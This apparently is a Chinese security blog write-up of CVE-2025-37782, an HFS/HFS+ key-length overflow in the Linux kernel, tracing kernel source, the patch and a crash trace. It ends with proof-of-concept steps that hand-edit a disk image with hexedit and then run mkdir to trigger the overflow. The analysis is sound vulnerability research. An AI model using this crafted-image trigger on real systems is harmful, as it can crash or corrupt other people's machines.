




# CVE-2025-37782漏洞分析与复现-先知社区

> **来源**: https://xz.aliyun.com/news/18182  
> **文章ID**: 18182

---

# CVE-2025-37782漏洞分析与复现

## 环境配置

开启linux编译选项HFS\_FS、HFSPLUS\_FS。

得先弄个磁盘disk1.img并在qemu中置入设备。

```
qemu-img create -f raw disk1.img 1G
```

然后在本机上对磁盘进行初始化：

```
apt install hfsprogs hfsplus
mkfs.hfsplus -v "MyHFS+" ./disk1.img
mkfs.hfs -v "MyHFS" ./disk2.img
```

然后这次不需要分区，分区之后反而没法挂载区块，只能直接挂载/dev/vda

```
#hfs
mkdir /mnt/hfs
mount -t hfs -o rw /dev/vda /mnt/hfs
#hfsplus
mkdir /mnt/hfsplus
mount -t hfsplus -o rw /dev/vda /mnt/hfsplus
```

## 前置知识

### hfs&hfsplus

**定义**：HFS是Mac OS的默认文件系统，但也可在Linux系统中通过特定工具进行读写操作，用于存储和管理文件。

**特点**：

* 支持大文件。
* 使用B树结构管理文件和目录。
* 提供了文件权限和访问控制。

**HFS+**：是HFS的升级版，支持更大的文件和分区，以及更高级的特性。

​

### hfs的btree模式

每个node都有n个page用于存放record、key、entry以及node信息。

偏移大致如下：

```
0-14：hfs_bnode_desc 存放node信息
14-m：存放data=key+entry，即目录信息
n-end:存放record信息。
```

其中record信息从末尾开始逆序存放，data信息从14偏移正序存放。

record保存data的偏移，data保存每个目录的名称之类的信息用于索引。

b树只有叶子节点保存目录信息，所有非叶子节点都只保存子节点的最小键信息，用于索引，最小键永远为偏移14处的第一个record。

当创建目录时，调用链如下：

```
vfs_mkdir->
    hfs_mkdir->
    hfs_cat_create
```

hfs\_cat\_create会调用hfs\_brec\_insert往node中插入新record信息。

这里的insert了两次，第一次是插入entry为目录名key为空的brec，第二次则是插入key为目录名entry为cnid的brec，用户以此可通过目录名找到cnid。

```
int hfs_cat_create(u32 cnid, struct inode *dir, const struct qstr *str, struct inode *inode)
{
    struct hfs_find_data fd;
    struct super_block *sb;
    union hfs_cat_rec entry;
    int entry_size;
    int err;

    hfs_dbg(CAT_MOD, "create_cat: %s,%u(%d)
",
            str->name, cnid, inode->i_nlink);
    if (dir->i_size >= HFS_MAX_VALENCE)
        return -ENOSPC;

    sb = dir->i_sb;
    err = hfs_find_init(HFS_SB(sb)->cat_tree, &fd);
    ...
        //先insert个key值初始化为空的record。
        err = hfs_brec_insert(&fd, &entry, entry_size);
    if (err)
        goto err2;

    hfs_cat_build_key(sb, fd.search_key, dir->i_ino, str);
    entry_size = hfs_cat_build_record(&entry, cnid, inode);
    err = hfs_brec_find(&fd);
    if (err != -ENOENT) {
        /* panic? */
        if (!err)
            err = -EEXIST;
        goto err1;
    }
    err = hfs_brec_insert(&fd, &entry, entry_size);
```

其中hfs\_find\_init会初始化fd信息。

```
int hfs_find_init(struct hfs_btree *tree, struct hfs_find_data *fd)
{
    void *ptr;

    fd->tree = tree;
    fd->bnode = NULL;
    ptr = kmalloc(tree->max_key_len * 2 + 4, GFP_KERNEL);
    if (!ptr)
        return -ENOMEM;
    fd->search_key = ptr;
    fd->key = ptr + tree->max_key_len + 2;
    ...
    }
```

可以看到大小为tree->max\_key\_len+2。

tree->max\_key\_len由head->max\_key\_len决定，这里固定只有两个值HFS\_MAX\_EXT\_KEYLEN或HFS\_MAX\_CAT\_KEYLEN(0x25)。

```
struct hfs_btree *hfs_btree_open(struct super_block *sb, u32 id, btree_keycmp keycmp)
{
    struct hfs_btree *tree;
    struct hfs_btree_header_rec *head;
    struct address_space *mapping;
    struct page *page;
    unsigned int size;

    ...
        mapping = tree->inode->i_mapping;
    page = read_mapping_page(mapping, 0, NULL);
    if (IS_ERR(page))
        goto free_inode;

    /* Load the header */
    head = (struct hfs_btree_header_rec *)(kmap_local_page(page) +
                                           sizeof(struct hfs_bnode_desc));
    tree->root = be32_to_cpu(head->root);
    tree->leaf_count = be32_to_cpu(head->leaf_count);
    tree->leaf_head = be32_to_cpu(head->leaf_head);
    tree->leaf_tail = be32_to_cpu(head->leaf_tail);
    tree->node_count = be32_to_cpu(head->node_count);
    tree->free_nodes = be32_to_cpu(head->free_nodes);
    tree->attributes = be32_to_cpu(head->attributes);
    tree->node_size = be16_to_cpu(head->node_size);
    tree->max_key_len = be16_to_cpu(head->max_key_len);
    ...
        switch (id) {
            case HFS_EXT_CNID:
                if (tree->max_key_len != HFS_MAX_EXT_KEYLEN) {
                    pr_err("invalid extent max_key_len %d
",
                           tree->max_key_len);
                    goto fail_page;
                }
                break;
            case HFS_CAT_CNID:
                if (tree->max_key_len != HFS_MAX_CAT_KEYLEN) {
                    pr_err("invalid catalog max_key_len %d
",
                           tree->max_key_len);
                    goto fail_page;
                }
                break;
            default:
                BUG();
        }

}
```

head保存在树根节点中。

## 漏洞分析与复现

根据patch信息可以了解问题出在hfs\_bnode\_read\_key和hfsplus\_bnode\_read\_key函数

```
--- a/fs/hfs/bnode.c
+++ b/fs/hfs/bnode.c
@@ -67,6 +67,12 @@ void hfs_bnode_read_key(struct hfs_bnode *node, void *key, int off)
    else
        key_len = tree->max_key_len + 1;

+   if (key_len > sizeof(hfs_btree_key) || key_len < 1) {
    +       memset(key, 0, sizeof(hfs_btree_key));
    +       pr_err("hfs: Invalid key length: %d
", key_len);
    +       return;
    +   }
+
    hfs_bnode_read(node, key, off, key_len);
}

--- a/fs/hfsplus/bnode.c
+++ b/fs/hfsplus/bnode.c
@@ -67,6 +67,12 @@ void hfs_bnode_read_key(struct hfs_bnode *node, void *key, int off)
    else
        key_len = tree->max_key_len + 2;

+   if (key_len > sizeof(hfsplus_btree_key) || key_len < 1) {
    +       memset(key, 0, sizeof(hfsplus_btree_key));
    +       pr_err("hfsplus: Invalid key length: %d
", key_len);
    +       return;
    +   }
+
    hfs_bnode_read(node, key, off, key_len);
}
```

这俩函数没有检查key\_len导致出现溢出漏洞。

再根据提供的崩溃信息能得到调用堆栈

```
__dump_stack lib/dump_stack.c:94 [inline]
 dump_stack_lvl+0x241/0x360 lib/dump_stack.c:120
 print_address_description mm/kasan/report.c:377 [inline]
 print_report+0x169/0x550 mm/kasan/report.c:488
 kasan_report+0x143/0x180 mm/kasan/report.c:601
 kasan_check_range+0x282/0x290 mm/kasan/generic.c:189
 __asan_memcpy+0x40/0x70 mm/kasan/shadow.c:106
 memcpy_from_page include/linux/highmem.h:423 [inline]
 hfs_bnode_read fs/hfs/bnode.c:35 [inline]
 hfs_bnode_read_key+0x314/0x450 fs/hfs/bnode.c:70
 hfs_brec_insert+0x7f3/0xbd0 fs/hfs/brec.c:159
 hfs_cat_create+0x41d/0xa50 fs/hfs/catalog.c:118
 hfs_mkdir+0x6c/0xe0 fs/hfs/dir.c:232
 vfs_mkdir+0x2f9/0x4f0 fs/namei.c:4257
 do_mkdirat+0x264/0x3a0 fs/namei.c:4280
 __do_sys_mkdir fs/namei.c:4300 [inline]
 __se_sys_mkdir fs/namei.c:4298 [inline]
 __x64_sys_mkdir+0x6c/0x80 fs/namei.c:4298
 do_syscall_x64 arch/x86/entry/common.c:52 [inline]
 do_syscall_64+0xf3/0x230 arch/x86/entry/common.c:83
 entry_SYSCALL_64_after_hwframe+0x77/0x7f
```

推测是在mkdir创建新目录时，由于fd->search\_key大小为max\_key\_len+2，而hfs\_bnode\_read\_key函数则是基于动态key\_len进行读取，又因为该函数没检查key\_len就会导致溢出。

这里研究了半天都没找到控制key\_len的地方，全是小于max\_key\_len。

同时发现内核会把b树同步写进磁盘用于保存，mount载入的时候也是基于磁盘的。



这就意味着我们可以直接通过修改磁盘控制key\_len的大小。

当每次试图去访问record时，会调用hfs\_brec\_keylen检查每一个record的key\_len是否超过范围。

```
u16 hfs_brec_keylen(struct hfs_bnode *node, u16 rec)
{
    u16 retval, recoff;

    if (node->type != HFS_NODE_INDEX && node->type != HFS_NODE_LEAF)
        return 0;

    if ((node->type == HFS_NODE_INDEX) &&
        !(node->tree->attributes & HFS_TREE_VARIDXKEYS)) {
        if (node->tree->attributes & HFS_TREE_BIGKEYS)
            retval = node->tree->max_key_len + 2;
        else
            retval = node->tree->max_key_len + 1;
    } else {
        recoff = hfs_bnode_read_u16(node, node->tree->node_size - (rec + 1) * 2);
        if (!recoff)
            return 0;
        if (node->tree->attributes & HFS_TREE_BIGKEYS) {
            retval = hfs_bnode_read_u16(node, recoff) + 2;
            if (retval > node->tree->max_key_len + 2) {
                pr_err("keylen %d too large
", retval);
                retval = 0;
            }
        } else {
            //hfs检查
            retval = (hfs_bnode_read_u8(node, recoff) | 1) + 1;
            if (retval > node->tree->max_key_len + 1) {
                pr_err("keylen %d too large
", retval);
                retval = 0;
            }
        }
    }
    return retval;
}
```

可以看到这保证了访问到的每一个record都进行key\_len的check，能一定程度杜绝从磁盘载入的record不会溢出。

但是这些record都是仍然会被载入进内核空间的，即不会一开始就检查而剔除，只有在通过\_\_hfs\_brec\_find访问到record时才会检查返回错误（也不会剔除，只会影响当前调用链返回错误）。

下面是漏洞真正触发点：

当往树的bnode中insert一个record时，如果该bnode空间不满足就会调用hfs\_bnode\_split分裂出一个新的node。

```
int hfs_brec_insert(struct hfs_find_data *fd, void *entry, int entry_len)
{
    struct hfs_btree *tree;
    struct hfs_bnode *node, *new_node;
    int size, key_len, rec;
    int data_off, end_off;
    int idx_rec_off, data_rec_off, end_rec_off;
    __be32 cnid;

    ...
        if (size > end_rec_off - end_off) {
            if (new_node)
                panic("not enough room!
");
            //分裂新node
            new_node = hfs_bnode_split(fd);
            if (IS_ERR(new_node))
                return PTR_ERR(new_node);
            goto again;
        }
    ...
    }
```

hfs\_bnode\_split会申请一个全新的node，并将原node的一半导入新node中。

```
static struct hfs_bnode *hfs_bnode_split(struct hfs_find_data *fd)
{
    struct hfs_btree *tree;
    struct hfs_bnode *node, *new_node, *next_node;
    struct hfs_bnode_desc node_desc;
    int num_recs, new_rec_off, new_off, old_rec_off;
    int data_start, data_end, size;

    tree = fd->tree;
    node = fd->bnode;
    new_node = hfs_bmap_alloc(tree);
    ...
        //原node的一半
        size = tree->node_size / 2 - node->num_recs * 2 - 14;
    old_rec_off = tree->node_size - 4;
    num_recs = 1;
    //循环获取一半size的rec
    for (;;) {
        data_start = hfs_bnode_read_u16(node, old_rec_off);
        if (data_start > size)
            break;
        old_rec_off -= 2;
        if (++num_recs < node->num_recs)
            continue;
        /* panic? */
        hfs_bnode_put(node);
        hfs_bnode_put(new_node);
        if (next_node)
            hfs_bnode_put(next_node);
        return ERR_PTR(-ENOSPC);
    }
    ...
        new_node->num_recs = node->num_recs - num_recs;
    node->num_recs = num_recs;
    new_rec_off = tree->node_size - 2;
    new_off = 14;
    size = data_start - new_off;
    num_recs = new_node->num_recs;
    data_end = data_start;
    //将原node的一半record移到new_code中
    while (num_recs) {
        hfs_bnode_write_u16(new_node, new_rec_off, new_off);
        old_rec_off -= 2;
        new_rec_off -= 2;
        data_end = hfs_bnode_read_u16(node, old_rec_off);
        new_off = data_end - size;
        num_recs--;
    }
    ...
        return new_node;
}
```

当存在节点分裂的现象，就会进入如下分支将新节点索引插入到树中，意味着与树建立连接。

```
int hfs_brec_insert(struct hfs_find_data *fd, void *entry, int entry_len)
{
    ...
        if (new_node) {
            hfs_bnode_put(fd->bnode);
            if (!new_node->parent) {
                hfs_btree_inc_height(tree);
                new_node->parent = tree->root;
            }
            fd->bnode = hfs_bnode_find(tree, new_node->parent);

            /* create index data entry */
            cnid = cpu_to_be32(new_node->this);
            entry = &cnid;
            entry_len = sizeof(cnid);

            /* get index key */
            /* 节点的第一个record是键值最小的，可以此建立父子节点索引 */
            hfs_bnode_read_key(new_node, fd->search_key, 14);
            __hfs_brec_find(fd->bnode, fd);

            hfs_bnode_put(new_node);
            new_node = NULL;

            if (tree->attributes & HFS_TREE_VARIDXKEYS)
                key_len = fd->search_key->key_len + 1;
            else {
                fd->search_key->key_len = tree->max_key_len;
                key_len = tree->max_key_len + 1;
            }
            /* 将节点索引插入至树中 */
            goto again;
        }

    return 0;
}
```

很明显这里是存在问题的，在这整个过程中都没有调用hfs\_brec\_keylen对新节点的record的key\_len进行检查，而下面这一段更是直接读取节点键值最小的record到fd->search\_key中。

```
hfs_bnode_read_key(new_node, fd->search_key, 14);
__hfs_brec_find(fd->bnode, fd);
```

\_\_hfs\_brec\_find函数是通过二分法来查找最符合特征的record。

```
int __hfs_brec_find(struct hfs_bnode *bnode, struct hfs_find_data *fd)
{
    int cmpval;
    u16 off, len, keylen;
    int rec;
    int b, e;
    int res;

    b = 0;
    e = bnode->num_recs - 1;
    res = -ENOENT;
    do {
        rec = (e + b) / 2;
        len = hfs_brec_lenoff(bnode, rec, &off);
        keylen = hfs_brec_keylen(bnode, rec);
        if (keylen == 0) {
            res = -EINVAL;
            goto fail;
        }
        hfs_bnode_read(bnode, fd->key, off, keylen);
        ...
        }
```

而hfs\_bnode\_split函数则是进行size的对半划分，所以我们可以通过特殊构造，保证在插入新record时，新record的键值在split分裂给new\_node的record集之前。即如下构造。



我们插入一个小于record1的新record，二分法查找时就不会访问record3而是往上访问到record1，之后因为我们插入的新record过大触发分裂机制，record3和record4被分配到new\_node。

此时new\_node的14偏移处的最小record为record3，而record3至始至终都没有被访问过，所以它的keylen可以是非法的。

这时候调用hfs\_bnode\_read\_key读取就会基于非法keylen读入到fd->search\_key，而fd->search\_key大小为固定max\_key\_len+2，最终导致溢出。

综上分析，这个漏洞的patch实际只是一个通防patch，并未对实际的逻辑漏洞点进行防护（也是折磨我这么久的原因），漏洞产生的真正原因是在访问split分裂后的最小record时未进行size检查。

### POC

这里的构造方式比想象中要麻烦一点，因为他有个cnid的额外record，即每次创建目录都会生成两个不同的record。

最终通过各种尝试得到POC。

先创建两个目录。

```
mkdir 1111111111111111
mkdir 222222222222222222222222222222
```

然后通过hexedit修改磁盘文件。

```
hexedit ./disk1.img
#enter + 00102400跳转到bnode的地址
```

可以看到node内部结构如下。



有6个record，并且"22..."目录的record位于0x1024F8，在一半size之后，同时是第4个record，二分法会从第(6+1)/2=3个record查找，刚好避过了"22..."的record。

之后我们修改光标处的24为64.

这个时候我们再创建一个特殊的新目录即可触发漏洞。

mkdir 000000000000000000000000000000



## 总结

这次的漏洞是我分析的最麻烦的漏洞之一，主要原因是commit信息给的太少了以及patch是通防修复手段。

前面时间找半天找不到控制key\_len超出max\_key\_len的地方，机缘巧合发现磁盘文件中保存了btree，可通过修改磁盘文件来篡改key\_len，之后又碰到了访问检查，但发现只要不访问就不会检查，最终配合split函数实现检查绕过到溢出。
